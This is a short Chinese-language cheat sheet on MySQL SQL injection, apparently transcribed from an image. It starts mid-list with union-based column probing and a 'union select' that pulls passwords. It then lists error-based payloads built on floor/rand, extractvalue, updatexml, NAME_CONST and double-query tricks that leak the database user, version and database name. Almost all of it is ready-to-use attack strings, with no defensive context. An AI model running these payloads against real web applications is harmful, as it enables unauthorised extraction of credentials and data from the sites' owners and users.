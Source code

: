 ```sql
order by number
```

1.2 **爆字段位置**

```sql
and 1=2 union select 1,2;
```

1.3**基本语法**

```sql
union select 1,password,2;
```



## 报错注入

mysql暴错注入方法整理，通过floor，UpdateXml，ExtractValue，NAME_CONST，Error based Double Query Injection等方法

**2.1floor**

```sql
?id=1 OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

**2.2extractvalue**

```sql
extractvalue(1,concat(0x7e,(select version()),0x7e))
```

**2.3updatexml**(最多32位)

```sql
updatexml(1,concat(0x7e,(select database()),0x7e),1);
```

UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
第三个参数：new_value，String格式，替换查找到的符合条件的数据。

**2.4NAME_CONST**

```sql
and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)
```

不太好用



**2.5 Error based Double Query Injection**

```sql
select 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1;
```

......(失败)
